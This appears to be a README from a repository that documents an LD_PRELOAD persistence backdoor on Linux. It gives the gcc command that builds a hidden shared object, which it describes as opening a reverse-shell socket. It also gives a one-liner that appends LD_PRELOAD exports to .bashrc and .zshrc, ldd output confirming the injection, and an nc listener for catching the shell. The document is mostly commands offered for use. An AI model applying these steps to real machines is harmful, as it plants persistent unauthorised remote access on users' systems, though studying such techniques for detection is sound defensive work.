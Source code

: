 # LD_PRELOAD

```
The dynamic linker can be run either indirectly by running some
dynamically linked program or shared object (in which case no
command-line options to the dynamic linker can be passed and, in
the ELF case, the dynamic linker which is stored in the .interp
section of the program is executed) or directly by running...

https://man7.org/linux/man-pages/man8/ld.so.8.html
```

The `LD_PRELOAD` directive can be used for linking an external library to a main program.
Declaring an `LD_PRELOAD` in `.bashrc` or `.zshrc` allows to let any binary, run by a user, to execute the code
contained in such shared object.

So first, compile `compile.c`, which opens a socket for a reverse shell, must be compiled using the following options:

`gcc -fPIC --shared compile.c -o .sshared`

Let's assume it's saved under `~` home directory.

Then let's update both `.bashrc` and `.zshrc` with

`[ -f "$HOME/.sshared" ] && echo 'export LD_PRELOAD=$HOME/.sshared' >> ~/.bashrc && echo 'export LD_PRELOAD=$HOME/.sshared' >> ~/.zshrc`

From now on, opening a terminal and executing the program will run the shared library containing the backdoor.

Let's check the linkage after these steps:

`ldd /usr/bin/id`

```
 linux-vdso.so.1 (0x00007ffcb11e4000)
 /home/virgula/.sshared (0x0000727261bce000)
 libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x0000727261b88000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x0000727261992000)
 libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007272618f4000)
 /lib64/ld-linux-x86-64.so.2 (0x0000727261be3000)
```

Open a netcat to notice reverse shell connection attempt whenever a command is executed.

`nc -lvnp 1234`